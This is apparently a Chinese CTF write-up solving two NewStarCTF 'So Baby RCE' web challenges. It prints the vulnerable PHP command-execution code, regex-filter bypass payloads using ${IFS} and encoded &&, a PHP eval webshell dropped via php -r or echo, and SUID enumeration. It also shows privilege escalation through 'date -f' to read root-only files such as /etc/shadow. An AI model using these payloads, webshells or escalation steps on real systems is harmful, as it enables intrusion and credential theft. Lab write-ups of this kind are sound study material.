







[buuctf] web区 write up 7
===

## [NewStarCTF 公开赛赛道]So Baby RCE

### 代码审计

典中典之开门审计代码:

```php
 <?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/et|echo|cat|tac|base|sh|more|less|tail|vi|head|nl|env|fl|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["cmd"])){
       echo "Don't Hack Me";
    }else{
        system($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

非常一目了然的 RCE, 需要对 `preg_match()` 作 bypass:

### `preg_match()` 函数常见绕过

1. PCRE 回溯上限:

    针对非惰性匹配 (无 `?` 的贪婪模式匹配), 只要构造的模式字符串足够长, 调用链足够深, 就会触发**调用上限**, 函数**抛回 False 值**, 从而实现绕过; 其原理是 php 正则匹配函数是基于 PCRE 实现的, 最直白的来说, 匹配的实质是一个**有限状态自动机**,回溯次数具有**上限**, 不能无限调用;

2. `%0A` 绕过:

    常用于包含 `.` 且不含 `/m` 选项的 `preg_match()`, 默认情况下这种匹配是只限于第一行的, 通过 `%0A` (换行符) 即可实现绕过;

3. 数组绕过:

    传一个数组进去, `preg_match()` 无法处理字符串, 会返回 `False`; 不过没有 `toString()` 直接用 `system()` 执行会报错 (Array);

### 调整 payload

输入 ls 有正常回显, 接下俩考虑怎么绕过就行了:



注意正则中没有过滤控制符, `{}` `$` `&`等字符, 考虑用管道符: 

> 注意 `&&` 需要 url 编码; 该控制符的含义为**严格逻辑与**, 需要前后都为真, 按从左到右顺序执行, 如果左边语句为假, 则直接退出;

```bash
cd${IFS}..%26%26ls
```


成功, 接下来慢慢遍历找就行了:

```bash
cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ls
```



```bash
cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ca${Z}t${IFS}ffff${Z}llllaaaaggggg
```

爆出flag: `flag{239fe0bd-010e-450e-afcc-c603d3ecace7} `



## [NewStarCTF 公开赛赛道]So Baby RCE Again

### 代码审计

同样是代码审计开门:

```php
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/bash|curl/i',$_GET["cmd"])){
        echo "Hacker!";
    }else{
        shell_exec($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

和上一题最大的区别是没用 `system()` 而是 `shell_exec()`, 其区别在于 `system()` 会打印输出到网页上 (可见), 后者不会。

这一题禁用了 `bash`, `curl` 应该主要是为防反弹 shell 直接把 shell 给弹回去;

那么马上想到可以用 webshell 的方式创建一个木马:

### webshell

创建 webshell 的指令, 有两个示例:

```bash
php -r "file_put_contents('shell.php', '<?php @eval(\$_POST[\"shell\"]);?>');"

# 或者用这个简单版也行;
echo '<?php @eval($_POST[1])?>' > webshell.php

```
> 注意:
> **引号冲突问题**, 一定要用双引号包裹单引号, 因为这里的命令是要放在 shell 里执行, 而 shell 中 `\' => '` 这样的表示方式是不存在的;


蚁剑连接:





找到 flag 之后读不出来, 应该是需要提权

### 提权

#### 枚举

用 find 找找 set UID = root 的文件:

```bash
find / -perm -u=s -type f 2>/dev/null
```



注意到 date 指令是可用的;

#### date 指令

```bash
# 输出当前时间
date

# 格式化输出
date +"%Y-%m-%d %H:%M:%S"

# 需 sudo, 设置系统时间
sudo date -s "2000-01-01 12:00:00"

# 读取文件日期, 这个指令实际上是把目标文件按照
# %Y-%m-%d %H:%M:%S
# 的格式进行读取
date -f filename
```

显然 `sudo date -f /ffll444aaggg` 即可。拿到 `flag{e7a2946a-2d0a-4f5f-bfa6-3cce34647a61}`



读其他文件也是能做到的, 比如 `/etc/shadow`;